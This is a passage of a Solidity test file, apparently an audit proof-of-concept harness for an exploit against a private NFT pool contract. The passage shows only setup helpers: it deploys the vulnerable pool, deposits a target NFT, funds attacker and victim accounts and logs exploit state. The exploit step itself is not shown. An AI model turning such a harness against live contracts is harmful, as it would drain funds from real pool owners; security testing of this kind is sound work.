 ```solidity
                new bytes32[](0),
                new bool[](0)
            ),
            baseTokenAmount: baseTokenAmount,
            isPublicPool: false
        });
    }

    /**
     * @notice Deploy and initialize an instance of the vulnerable private pool implementation.
     */
    function _deployPrivatePool() internal {
        // Deploy pool implementation.
        privatePool = new PrivatePool(
            address(factory),
            address(royaltyRegistry),
            address(stolenNftOracle)
        );

        // Initialize pool instance.
        privatePool.initialize(
            address(0),
            address(nft),
            VIRTUAL_BASE_TOKEN_RESERVES,
            VIRTUAL_NFT_RESERVES,
            0,
            0,
            MERKLE_ROOT,
            false,
            true
        );
    }

    /**
     * @notice Transfer the NFT to the pool to simulate the private pool owner has deposited it.
     * @param _targetTokenId The specific NFT that will be used by the attacker to perform the exploit.
     */
    function _depositNft(uint256 _targetTokenId) internal {
        address owner = nft.ownerOf(tokenId);
        vm.prank(owner);
        nft.transferFrom(owner, address(privatePool), _targetTokenId);
        assertEq(nft.ownerOf(_targetTokenId), address(privatePool));
    }

    /**
     * @notice Funds ETH to the accounts that will need native tokens for this test case.
     */
    function _fundEth() internal {
        vm.deal(address(privatePool), VIRTUAL_BASE_TOKEN_RESERVES);
        vm.deal(attacker, 100e18);
        vm.deal(victim, 100e18);
    }

    /**
     * @notice Logs the current state to show the exploit status in the terminal.
     */
    function _logState(string memory state) internal view {
        console.log("");
        console.log("============================================");
        console.log(state);
        console.log("============================================");
        console.log(
```